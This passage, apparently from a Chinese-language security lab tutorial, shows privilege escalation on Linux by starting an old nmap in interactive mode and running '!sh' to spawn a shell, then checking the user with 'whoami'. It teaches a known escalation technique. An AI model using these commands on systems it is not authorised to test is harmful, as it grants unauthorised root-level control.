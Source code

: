 
注意单词的拼写，特别是 `nmap`。


### 4.2 使用 nmap 进行提权

该版本的 nmap 也是一个非常老的版本，通过 nmap 选项，能够让用户执行 Shell 命令，在终端中，我们输入如下命令：

```
# 让用户自行 Shell 命令
/usr/bin/nmap --interactive
```

![图片描述](../imgs/1480406522209.png-wm.png)

接着在命令终端中，输入如下命令：

```
#  输入!sh 进行提权
nmap> !sh 
```

接着 `nmap>` 消失，此时，再次使用 `whoami` 命令查看当前用户是谁：

```
# 查看当前的用户是谁
whoami
```
